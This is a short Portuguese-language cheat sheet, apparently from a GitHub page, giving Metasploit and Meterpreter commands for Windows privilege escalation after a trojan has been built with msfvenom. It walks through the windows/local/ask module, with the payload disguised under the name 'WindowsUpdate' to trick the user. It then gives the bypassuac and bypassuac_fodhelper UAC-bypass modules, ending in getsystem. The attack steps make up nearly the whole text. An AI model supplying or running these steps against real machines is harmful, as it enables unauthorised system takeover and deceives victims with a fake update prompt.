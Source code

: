 ### Escalação de privilégio ***com interação do usuário***
getuid
getprivs
getsystem -h

Depois de criar o cavalo de troia através do MSFVENOM faça:

metasploit
meterpreter> background
exploit (multi/handler)> search uac
use exploit/windows/local/ask

exploit <span style="color:red;">(windows/local/ask)</span> > set FILE_NAME WindowsUpdate
exploit (windows/local/ask)> session 1
exploit (windows/local/ask)> technique PSH
exploit (windows/local/ask)> run
exploit (windows/local/ask)> sessions -i 2

### Escalação de privilégio ***sem interação do usuário***

1ª tentativa
use exploit/windows/local/bypassuac
set session 1 
run

2ª tentativa
use exploit/windows/local/bypassuac_fodhelper
exploit (windows/local/bypassuac_fodhelper)> set session 1 
exploit(windows/local/bypassuac_fodhelper)> run
meterpreter> getsystem


